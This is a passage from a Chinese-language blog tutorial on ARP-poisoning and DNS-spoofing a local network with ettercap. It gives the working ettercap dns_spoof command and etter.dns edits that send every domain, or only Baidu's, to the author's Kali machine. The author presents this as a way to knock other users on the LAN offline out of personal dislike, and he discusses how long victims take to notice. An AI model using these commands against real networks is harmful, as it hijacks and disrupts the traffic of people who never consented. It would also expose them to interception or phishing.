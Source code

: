 这句话的意思就是，将所有的域名都解析到IP地址为`192.168.0.131`的主机上。而这个是我的kali的本机ip。



### 3. 发起DNS欺骗

```

ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /// ///

```

参数就不解释啦`--help`就都知道啦，我只讲思路。



![2019-07-03T06:34:45.png][8]



如上图DNS欺骗就已经开始了。



### 4. 局域网断网攻击

因为上面我将所有的域名地址都解析到了，我的本机IP。而我本地却没有搭建任何web服务，这个时候如果用户访问网站都会出现如下图效果。

![2019-07-03T06:37:21.png][9]



由于浏览器DNS缓存的问题，此方式可能短期内对近期访问过的网站不起作用。



### 5. 针对特定网站攻击

假如我对百度很有意见，我见不惯别人使用百度。

```

vim /etc/ettercap/etter.dns

```

那么我可以将dns文件修改为

```

*.baidu.com A 192.168.0.131

```

这样只要别人访问百度就会出现

![2019-07-03T06:37:21.png][10]



但是这样有个问题，这样攻击久了，是个人都会觉得奇怪。百度这么大的公司怎么会长时间访问不了呢？



  [1]: https://blog.csdn.net/qq_38228830/article/details/81989301
  [2]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T02:36:57.png
  [3]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T12:32:20.png
  [4]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:21:37.png
  [5]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:24:03.png
  [6]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:26:36.png
  [7]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:28:59.png
  [8]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:34:45.png
  [9]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:37:21.png
  [10]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T06:37:21.png
  [11]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T07:05:08.png
  [12]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T07:27:53.png
  [13]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T08:51:32.png
  [14]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T09:20:29.png
  [15]: https://blog.cdn.thinkmoon.cn/blog/typecho/2019-07-03T10:08:28.png